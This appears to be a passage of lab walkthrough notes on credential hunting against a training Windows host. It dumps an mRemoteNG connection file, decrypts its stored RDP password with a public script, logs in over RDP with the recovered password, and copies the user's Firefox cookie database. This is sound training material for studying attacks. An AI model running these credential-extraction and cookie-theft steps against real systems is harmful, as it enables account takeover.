 
type C:\Users\Peter\AppData\Roaming\mRemoteNG\confCons.xml

<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="AllGNAWw3JJdXFuMG06ssHKpMbWw7AHXKWZVidfNIu5LNVm2nzroKSKtYYfsK66/itwh95OaYLtEX8NA7xy7IMwr" ConfVersion="2.6">
    <Node Name="Grace_Local_Acct" Type="Connection" Descr="Grace Account" Icon="mRemoteNG" Panel="General" Id="88291c0c-b6b0-4f2d-b180-81d3b50485a4" Username="grace" Domain="PILLAGING-WIN01" Password="s1LN9UqWy2QFv2aKvGF42YRfFvp0bytu04yyCuVQiI12MQvkYT3XcOxWaLTz0aSNjRjr3Rilf6Xb4XQ=" Hostname="localhost" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>

git clone https://github.com/haseebT/mRemoteNG-Decrypt
cd mRemoteNG-Decrypt/

python3 mremoteng_decrypt.py -s "s1LN9UqWy2QFv2aKvGF42YRfFvp0bytu04yyCuVQiI12MQvkYT3XcOxWaLTz0aSNjRjr3Rilf6Xb4XQ="
Password: Princess01!


xfreerdp /v:10.129.31.105 /u:Grace /p:Princess01!

PS C:\Users\Grace> copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
PS C:\Users\Grace> dir


    Directory: C:\Users\Grace
